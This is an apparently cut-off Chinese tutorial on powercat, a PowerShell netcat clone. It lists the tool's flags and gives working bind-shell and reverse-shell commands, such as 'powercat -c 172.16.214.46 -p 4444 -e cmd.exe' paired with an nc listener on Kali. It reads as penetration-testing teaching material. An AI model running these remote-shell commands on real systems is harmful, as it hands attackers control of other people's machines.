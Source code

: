 powercat 命令参数

```
-l		监听模式
-p		指定监听端口
-e		指定启动进程的名称
-v		显示详情
-c		指定想要连接的 IP 地址
-ep		返回 powershell
-dns	使用 dns 通信
-g		生成 payload
-ge		生成经过编码的 payload，可以直接使用 powershell -e 执行该 payload
```

可以看到和 nc 的命令还是很相似的。

### 正向连接

Kali 上的 nc 连接到靶机

```
nc -v rhost rport
```

```
nc -v 172.16.214.21 4444
```

靶机开启监听，等待 Kali 连接

```
powercat -l -v -p lport -e cmd.exe
```

```
powercat -l -v -p 4444 -e cmd.exe
```

### 反向连接

Kali 上开启监听

```
nc -lvp 4444
```

靶机向 kali 发起连接

```
powercat -c rhost -p rport -e cmd.exe
```

```
powercat -c 172.16.214.46 -p 4444 -e cmd.exe
```

### 返回 powershell

攻击机上运行
